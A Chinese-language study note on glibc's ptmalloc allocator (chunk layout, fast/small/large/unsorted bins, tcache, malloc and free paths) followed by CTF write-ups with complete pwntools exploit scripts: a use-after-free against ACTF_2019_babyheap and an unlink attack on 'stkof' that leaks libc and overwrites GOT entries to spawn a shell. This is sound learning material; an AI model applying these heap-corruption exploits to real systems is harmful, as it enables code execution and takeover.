




#   内存管理器(ptmalloc)的学习
##  chunk的具体实现
```C

struct malloc_chunk
{
    INTERNAL_SIZE_T mchunk_prev_size;  // 如果前面一个物理相邻的堆块是空闲的, 则表示其大小, 否则用于储存前一个堆块的数据
    INTERNAL_SIZE_T mchunk_size;       // 当前chunk的大小, 低三位作为flag, 意义如下:
    /*
        A : 倒数第三位表示当前chunk是否属于主线程:1表示不属于主线程, 0表示属于主线程
        M : 倒数第二位表示当前chunk是从mmap(1)[多线程]分配的，还是从brk(0)[子线程]分配的
        P : 最低为表示前一个chunk是否在使用中, 1表示在使用, 0表示是空闲的
            通常堆中的第一个堆块的P位是1, 以便于防止访问前面的非法内存
    */

    /*
        1.真正的内存从这里开始分配
        2.malloc之后这些指针没有用,这时存放的是数据
        3.只有在free之后才有效。
    */
 
    struct  malloc_chunk*   fd;             // 当chunk空闲时才有意义,记录后一个空闲chunk的地址
    struct  malloc_chunk*   bk;             // 同上,记录前一个空闲chunk的地址
 
    /* 仅用于较大的块 */
    struct  malloc_chunk*   fd_nextsize;    // 当前chunk为largebin时才有意义，指向比当前chunk大的第一个空闲chunk
    struct  malloc_chunk*   bk_nextsize;    // 指向比当前chunk小的第一个空闲堆块
};
```
>   堆的大小必须是2*SIZE_SZ的整数倍
>   *  32位:SIZE_SZ=4, 因此堆大小为8的整数倍
>   *  64位:SIZE_SZ=8, 因此堆大小为16的整数倍

## 堆空闲管理结构(bins)
####   fast bin
>   32位下存放0x10\~0x40字节的堆块
>   64位下存放0x20\~0x80字节的堆块
>   fast bin按单链表结构, fd指向下一堆块, 采用LIFO机制
>   防止释放时对fast bin合并, 堆块的p标志位为1

#### small bin
>    32位下存放0x10\~0x400字节的堆块
>    64位下存放0x20\~0x800字节的堆块
>    双向链表

#### large bin
>   保存更大的堆块

#### unsorted bin
>   存放刚释放的堆块以及大堆块释放后的堆块

#### tcache( >=glibc 2.26 )
>   tcache是一个线程特定的数据结构, 每个线程都有自己的tcache, 它包含了一组tcache bin

使用`export GLIBC_TUNABLES=glibc.malloc.tcache_count=0`禁用tcache
*   tcache的两个重要的结构体如下:
```C
// 链接空闲的chunk结构体
typedef struct tcache_entry
{
    // next指向下一个具有相同大小的chunk
    // 与fast bin不同的是, chunk的fd指向的是下一个chunk的data部分
    struct tcache_entry *next;
} tcache_entry;

// 每个线程都会有一个tcache_perthread_struct用于管理tcache链表
// 这个结构体位于heap段的起始位置
typedef struct tcache_perthread_struct
{
    // counts记录了tcache_entry链上空闲chunk的数量
    // 每条tcache_entry链最多可以有7个chunk
    char counts[TCACHE_MAX_BINS];
    
    // 用单向链表的方式链接了相同大小的处于空闲状态的chunk
    tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```
>   TCACHE_MAX_BINS的默认大小是64


##  malloc过程
*   对齐计算出最终要分配的size
*   检查size是否符合fast bin的范围, 若符合则继续检查fast bin中的size大小的那条链是否存在空闲堆块, 如果存在则分配, 否则继续下一步
*   检查size是否符合small bin的范围, 若符合则继续检查small bin中的size大小的那条链是否存在空闲堆块, 如果存在则分配,否则继续下一步
*   检擦size是否符合large bin大小, 若符合则调用malloc_consolidate函数对fast bin中所有堆块进行合并
> * 遍历fast bin中的所有堆块
> * 对于每一个堆块，它会清除其下一个堆块的P标志位
> * 尝试将当前的内存块和其下一个内存块进行合并
> * 将合并后的内存块放入unsorted bin中
*   然后在small bin和large bin中找到合适的size大小的块, 若找到了则切割该堆块, 并将多余部分放入unsorted bin(或者last remainder chunk, 这取决于剩余部分的大小以及当前的内存分配策略)
*   如果找不到合适的, 检查top chunk的大小是否符合size, 若是则分配前面一部分, 并重新设置top chunk, 否则调用malloc_malloc_consolidate函数对对fast bin中的所有堆块进行合并, 若依然不够, 则借助系统调用来获取新空间进行分配, 若依然无法满足size, 则返回失败


##  free过程
*   free时首先检查地址是否对齐, 并根据size找到下一堆块位置
*   检查释放的size是否满足fast bin, 若满足则直接放入fast bin并保持下一堆块的P标志位为1(避免前后堆块释放时将其合并), 否则继续下一步
*   若本堆块的P标志位为0(表示上一堆块处于空闲状态)利用pre_size找到上一堆块的开头将其从bin中摘除, 并合并这两个堆块
*   根据size找到下一个堆块, 如果是top chunk那么直接合并到top chunk中, 否则检查是否为释放状态(下一个堆块的下一个堆块的P标志位是否为0), 若是则将其从bin中摘除然后合并
*   得到的最终堆块放入unsorted bin中
>   注意 : 合并时只向前或向后合并相邻的堆块

#   UAF
##  ACTF_2019_babyheap
*   64位程序, 没有开启pie保护

*   程序主要是三部分:创建, 删除和显示



*   申请了一个16字节堆块作为struct, struct前半8字节又申请了size大小的字节用于存放content, 后8个字节存放一个输出函数输出content
*   显示部分调用struct里面的函数指针打印content
*   释放时并没有将ptr指针置空, 这就是我们利用的漏洞

```python
from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'debug')
p   = process('./ACTF_2019_babyheap')

binsh   = 0x602010
system  = 0x4007a0

def creat(size, content):
    p.recvuntil('Your choice: ')
    p.send('1')
    p.recvuntil('Please input size: ')
    p.send(size)
    p.recvuntil('Please input content: ')
    p.send(content)
def delete(index):
    p.recvuntil('Your choice: ')
    p.send('2')
    p.recvuntil('Please input list index: ')
    p.send(index)
def printf(index):
    p.recvuntil('Your choice: ')
    p.send('3')
    p.recvuntil('Please input list index: ')
    p.send(index)
    
creat('256', 'A' * 0x100)
creat('256', 'B' * 0x100)
delete('0')
delete('1')
# A的结构体部分设置为binsh system
# 打印的时候就会执行system(binsh)
creat('16', p64(binsh) + p64(system))
# 执行A
printf('0')

p.interactive()
```
>   从脚本中不难看出我们先申请了A和B然后释放
>   那么此时bin中有两条链, 一条放着A和B的struct, 另一条放着A和B的content
>   我们再申请一个content大小为0x10的C时, 此时C的struct就会使用B的struct, C的content就会使用A的struct, 然后只需要将system和binsh的地址写入C的content然后调用print打印A的content就会执行system("/bin/sh");

#   unlink
>   unlink的过程如下
```C
// BK和FD起临时变量的作用
#define unlink(P, BK, FD) { \
    FD = P->fd;             \
    BK = P->bk;             \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))   \
        malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    FD->bk = BK;            \
    BK->fd = FD;            \
}
```
*   unlink检测绕过
>   检测原理
*   unlink的就是检查上一个堆块的fd和下一个堆块的bk指针是否都指向P

>   利用思路
*   在malloc时会返回一个指向P的data的指针(假设q = malloc(0x10))
*   在P的data中伪造一个堆头
*   设置fd = q - 0x18, bk = q - 0x10
*   修改下一个堆块的pre_size和P标志位
*   此时free合并的时候就会合并我们伪造的P, 然后对伪造的P进行unlink
*   ```FD->bk = BK;```会设置q = q - 0x10
*   ```BK->fd = FD;```会设置q = q - 0x18
*   最终我们将q的值为q - 0x18

##  stkof
*   检查保护

*   放入ida发现程序主要是由create, edit, delete组成



*   管理分配内存的是s
*   我们可以利用unlink漏洞设置s的第2个位置为s-0x8然后通过编辑s的第2个位置指向的内容就可以修改s的内容
*   将我们的atoi, puts, free的got地址分别放在s的第0, 1, 2的位置
*   修改s第2个位置的值为put_plt就是修改free的got的值为put_plt
*   free掉s的第1个位置就是打印puts的真实地址
*   计算出system地址
*   修改s的第0个位置指向的值为system就是修改atoi的got表的值为system
*   输入/bin/sh那么原本的```atoi("/bin/sh")```就会变成```system("/bin/sh")```
>   exp如下
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p       = process('./stkof')
elf     = ELF('./stkof')
libc    = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 函数利用
def edit(count, content):
    p.sendline('2')
    p.sendline(str(count))
    p.sendline(str(len(content)))
    p.sendline(content)
    p.recvuntil('OK\n')
def create(size):
    p.sendline('1')
    p.sendline(str(size))
    p.recvuntil('OK\n')
def free(count):    # 需要用free泄露glibc地址, 所以不在最后添加p.recvuntil('OK\n')
    p.sendline('3')
    p.sendline(str(count))

s        = 0x602140         # s的初始地址
ptr      = s + (8 * 2)      # 要unlink的地址
atoi_got = elf.got['atoi']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
free_got = elf.got['free']

# 创建三个堆块用来利用unlink
create(0x80)
create(0x30)
create(0x80)

# 因为开启了tcache机制, 所以需要先free掉7个堆块
create(0x80)
create(0x80)
create(0x80)
create(0x80)
create(0x80)
create(0x80)
create(0x80)
free(4)
free(5)
free(6)
free(7)
free(8)
free(9)
free(10)

FD = ptr - 0x18
BK = ptr - 0x10
payload  = p64(0x0) + p64(0x31)
payload += p64(FD) + p64(BK)
payload += b'a' * 0x10
payload += p64(0x30) + p64(0x90)
edit(2, payload)    # 设置第二个chunk并清除第三个堆块的P标志位
free(3)             # 释放第三个chunk, 并合并第二个chunk, 使其对第二个chunk调用unlink
p.recvuntil('OK\n')

payload  = p64(0) + p64(atoi_got)           # 0
payload += p64(puts_got) + p64(free_got)    # 1 2
edit(2, payload)        # 设置我们的s空间
edit(2, p64(puts_plt))  # 将free的got表改为puts的plt表
free(1)                 # 打印出puts的got的值
puts        = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
libc_base   = puts      - libc.symbols['puts']
system      = libc_base + libc.symbols['system']

edit(0, p64(system))        # 将atoi的got表改为system的地址
p.sendline('/bin/sh\x00')   # 输入/bin/sh即可触发system("/bin/sh")
p.interactive()
```